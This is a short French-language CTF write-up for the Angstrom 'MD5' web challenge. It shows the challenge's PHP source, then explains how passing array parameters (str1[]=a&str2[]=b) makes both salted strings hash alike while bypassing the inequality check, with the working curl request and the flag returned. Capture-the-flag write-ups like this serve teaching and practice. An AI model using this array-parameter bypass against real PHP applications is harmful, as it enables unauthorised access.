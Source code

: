 # Angstrom - CTF writeup - MD5 - 140 pts

- Le chall consiste en un formulaire  qui doit comparer deux string qui une fois hashé en md5 doivent donner la même valeur :

![web-md5-screen.png](web-md5-screen.png)

- On peut voir dans les sources le code php suivant :
```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

- On constate qu'il n'y a que des comparaisons strictes, en `===` ou `!==`
- Le salt est le même des deux cotés : `hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"]))`
- Il faut donc arriver à faire en sorte que str1 soit égal à str2 tout en bypassant le test :  `$_GET["str1"] !== $_GET["str2"]`
- Pour se faire on va utiliser les tableaux en php car un tableau concaténé à un string produit la chaine 'Array':
```php
php > $a = array('str1');
php > $b = 'salt'.$a;
PHP Notice:  Array to string conversion in php shell code on line 1
php > var_dump($b);
string(9) "saltArray"
```

- Du coup en passant en paramètre deux tableaux différents, ceux-ci vont produire la même chaîne de caractère une fois concaténé au salt tout en passant le test d'inégalité des paramètres.

- Résultat : `http://web.angstromctf.com:3003/?str1[]=a&str2[]=b`
```
➜  ~ curl "http://web.angstromctf.com:3003/\?str1\[\]\=a\&str2\[\]\=b"
actf{but_md5_has_charm}
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
